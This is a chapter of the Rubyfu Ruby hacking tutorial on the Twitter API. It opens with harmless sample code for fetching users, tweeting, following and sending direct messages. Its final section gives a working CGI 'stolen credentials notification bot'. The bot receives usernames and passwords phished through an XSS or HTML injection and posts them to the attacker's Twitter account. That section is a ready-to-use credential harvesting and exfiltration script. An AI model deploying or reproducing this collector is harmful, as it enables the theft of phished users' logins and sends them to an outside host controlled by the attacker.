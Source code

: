 # Twitter API

Dealing with Twitter's API is really useful for information gathering, taxonomy and social engineering. However, you have to have some keys and tokens in-order to interact with Twitter's APIs. To do so, please refer to the official [Twitter development page](https://dev.twitter.com/oauth/overview).

* Install Twitter API gem

  ```text
  gem install twitter
  ```

## Basic Usage

**rubyfu-tweet.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```

![](../../../.gitbook/assets/webfu__twitterAPI1.png)

**Your turn**, tweet to @Rubyfu using above example. Tweet your code and output to **@Rubyfu**.

## Building Stolen Credentials notification bot

We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script](http://rubyfu.net/content/module_0x4__web_kung_fu/index.html#cgi) that takes that stolen credentials then tweet these credentials to us as notification or log system

```ruby
#!/usr/bin/ruby -w

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```

